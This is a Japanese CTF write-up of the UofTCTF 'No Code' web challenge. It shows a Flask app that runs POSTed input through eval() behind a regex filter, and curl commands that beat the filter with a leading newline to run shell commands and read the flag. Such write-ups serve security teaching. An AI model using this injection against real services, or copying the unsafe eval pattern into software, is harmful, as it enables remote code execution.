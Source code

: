 # No Code:Web:362pts
I made a web app that lets you run any code you want. Just kidding!  

[https://uoftctf-no-code.chals.io/](https://uoftctf-no-code.chals.io/)  
[app.py](app.py)  

# Solution
URLとソースが渡される。  
初めにURLにアクセスするが何もない。  
```bash
$ curl https://uoftctf-no-code.chals.io/
<!doctype html>
<html lang=en>
<title>404 Not Found</title>
<h1>Not Found</h1>
<p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
```
ソースは以下のようであった。  
```python
from flask import Flask, request, jsonify
import re

app = Flask(__name__)

@app.route('/execute', methods=['POST'])
def execute_code():
    code = request.form.get('code', '')
    if re.match(".*[\x20-\x7E]+.*", code):
        return jsonify({"output": "jk lmao no code"}), 403
    result = ""
    try:
        result = eval(code)
    except Exception as e:
        result = str(e)

    return jsonify({"output": result}), 200

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=1337, debug=False)
```
`/execute`にPOSTしたものを`re.match`で検証して`eval`しているようだ。  
RCEしたいが、一見すると何のコードも実行できない。  
ここで`.*[\x20-\x7E]+.*`は改行にマッチしないことに気づく。  
`re.match`は先頭がマッチするかどうかなので、先頭に改行を挟めば以降は任意のコードを記述できる。  
以下のように行う。  
```bash
$ curl -X POST 'https://uoftctf-no-code.chals.io/execute' -d 'code=
__import__("subprocess").getoutput("ls")
'
{"output":"app.py\nflag.txt\nrequirements.txt"}
$ curl -X POST 'https://uoftctf-no-code.chals.io/execute' -d 'code=
__import__("subprocess").getoutput("cat flag.txt")
'
{"output":"uoftctf{r3g3x_3p1c_f41L_XDDD}"}
```
flagが読み取れた。  

## uoftctf{r3g3x_3p1c_f41L_XDDD}